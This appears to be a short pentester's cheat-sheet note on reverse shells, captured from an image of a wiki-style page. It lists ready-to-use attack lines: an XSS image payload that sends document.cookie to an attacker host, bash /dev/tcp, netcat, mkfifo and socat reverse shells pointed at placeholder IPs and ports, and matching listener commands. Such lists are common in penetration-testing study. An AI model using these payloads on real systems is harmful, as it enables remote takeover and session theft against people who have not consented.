 ```yaml
---
tags:
  - reverse-shell
---
```

[All-in-one resource](https://www.revshells.com/) 

HTTP:
```http
<img src=x onerror=fetch('http://IP:PORT/'+document.cookie);>
```

### Linux:
```bash
bash -c 'exec bash -i &>/dev/tcp/IP/PORT <&1'

nc -e /bin/sh IP PORT

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:IP:PORT
```

> The [pty module](https://docs.python.org/2/library/pty.html) let’s you spawn a pseudo-terminal that can fool commands like `su` into thinking they are being executed in a proper terminal.

### Windows

# Listen

```Shell
$ socat file:`tty`,raw,echo=0 tcp-listen:PORT
$ nc -nlvp PORT
```

Once we get a shell, we can try to [[Upgrade Shell]]